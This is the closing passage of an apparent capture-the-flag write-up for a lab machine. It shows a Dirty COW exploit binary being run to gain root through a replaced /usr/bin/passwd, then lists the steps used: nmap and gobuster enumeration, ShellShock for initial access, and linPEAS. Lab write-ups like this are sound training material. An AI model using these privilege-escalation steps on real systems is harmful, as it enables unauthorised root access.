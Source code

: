 Now that we have it compiled and ready to go let's run it:

```
www-data@ubuntu:/tmp$ ./c0w
                                
   (___)                                   
   (o o)_____/                             
    @@ `     \                            
     \ ____, //usr/bin/passwd                          
     //    //                              
    ^^    ^^                               
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap c5120000

madvise 0

ptrace 0
```

And finally run **/usr/bin/passwd**:

```
www-data@ubuntu:/tmp$ /usr/bin/passwd
root@ubuntu:/tmp# whoami
root
```

Heading over to the **/root** directory shows us that our **proof.txt** is there:

```
root@ubuntu:/root# wc -c proof.txt
33 proof.txt
```

<br>

With that we've completed this CTF!

![](images/sumo3.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Exploiting **ShellShock**, also known as **CVE-2014-6271** to gain initial access to the system
- Searching for privilege escalation vectors with **linPEAS**
- Exploiting a **PTRACE_POKEDATA** variant of **Dirty COW**, also known as **CVE-2016-5195** to escalate to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF